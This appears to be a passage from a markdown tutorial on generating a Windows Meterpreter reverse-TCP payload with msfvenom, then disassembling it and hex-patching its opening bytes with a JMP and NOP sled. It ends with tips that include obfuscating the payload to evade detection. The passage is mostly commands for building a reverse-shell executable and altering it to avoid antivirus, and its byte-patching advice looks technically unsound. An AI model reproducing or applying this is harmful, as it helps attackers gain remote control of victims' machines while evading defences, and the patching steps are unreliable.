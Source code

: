 ### **2. Windows Example**

#### **Step 1: Generate the msfvenom Payload**

Create a basic **Windows** payload:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe -o shell.exe
```

#### **Step 2: Disassemble the Binary**

Use a tool like `IDA Pro`, `Ghidra`, or `objdump` to disassemble the binary:

```bash
# Using objdump (for quick analysis)
objdump -D -M intel shell.exe > shell.asm
```

#### **Step 3: Identify an Injection Point**

Identify a place in the disassembly where you can insert your JMP instruction. This could be at the entry point or after initialization code.

#### **Step 4: Patch the Binary**

Use a hex editor like **HxD** (on Windows) to patch the binary.

1. **Hex Editor**: Open `shell.exe` in HxD.
2. **JMP Instruction**:
   - Insert a `JMP` instruction to skip over the first 5 bytes (if that’s where you want to insert it).
   - Replace the first few bytes like this:
   
   - Original: `48 31 C0 ...`
   - Patched: `EB 05 90 90 90 ...` (JMP 5 bytes forward, then NOP sled)

3. **Save the Patched File**: Save the modified binary as `patched_shell.exe`.

#### **Step 5: Test the Patched Binary**

Run the binary on a test Windows machine:

```cmd
patched_shell.exe
```

Alternatively, you can use `x64dbg` or `OllyDbg` to step through the binary’s execution:

```cmd
x64dbg.exe patched_shell.exe
```

### **Additional Tips:**

- **NOP Sleds**: Use NOPs (`0x90` in x86/x64) to ensure the binary doesn’t crash after the JMP instruction.
- **Obfuscation**: Consider obfuscating parts of the payload to further evade detection.
- **Error Checking**: Use debuggers to carefully step through the binary and ensure it behaves as expected after modification.
